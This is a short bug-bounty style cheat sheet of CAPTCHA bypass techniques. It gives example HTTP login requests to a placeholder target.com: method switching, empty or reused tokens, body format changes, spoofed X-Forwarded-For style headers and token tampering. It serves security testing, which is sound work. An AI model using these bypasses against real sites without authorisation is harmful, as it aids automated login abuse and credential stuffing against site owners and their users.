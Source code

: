 # Bypass Captcha
1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```

2. Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```

